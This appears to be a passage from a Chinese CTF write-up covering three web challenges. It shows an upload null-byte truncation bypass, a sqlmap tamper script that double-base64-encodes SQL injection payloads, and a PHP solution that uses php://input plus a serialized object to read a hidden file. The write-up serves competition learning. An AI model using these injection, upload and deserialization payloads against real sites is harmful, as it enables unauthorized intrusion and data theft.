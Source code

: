 ###7、无间道(200)
> 无间道：放你的人来我这？~ http://huashan.xdsec.cn/upload/index.php
利用“php很烦人”那题得到index.php源码，flag就在其中

正确解法：
一道上传截断题目,过程不多说。直接fuzz %80~%00中间的字符,即可上传成功,得到返回的flag。由于上传删除文件的过程有延时,可能存在竞争上传问题。
###8、Mory try
没做出来
看了师傅们的wp
过程大概是
**role参数里是两次base64编码，测试后可以注入。使用sqlmap的random user-agent绕过一下，并编写两次base64的tamper：**
```PY
#!/usr/bin/env python
# Copyright (c) 7 team  All rights reserved
from lib.core.enums import PRIORITY
from urllib import urlencode
import base64
import urllib
__priority__ = PRIORITY.LOW
def tamper(payload):
    retVal = payload
    retVal = base64.b64encode(retVal)
    retVal = base64.b64encode(retVal)
    retVal = urllib.quote(retVal)
    return retVal
```
然后就能得到flag
`flag_xd{hsh_ctf:sql_succeed!}`


###9、php很烦人(200)
> 但php仍然是世界上最好的语言   http://huashan.xdsec.cn/php/
发包，看到源码。

```
<!--
$user = $_GET["user"];
$file = $_GET["file"];
$pass = $_GET["pass"];

if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
 -->
```

是让传三个参数`user,file,pass`，然后先构造`user=php://input`,post值`the user is admin`。`file=class.php`，`pass=O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}`反序列化去读取`f1a9.php`。直接出`flag`。

![](http://7xi72v.com1.z0.glb.clouddn.com/16-9-10/78532530.jpg)
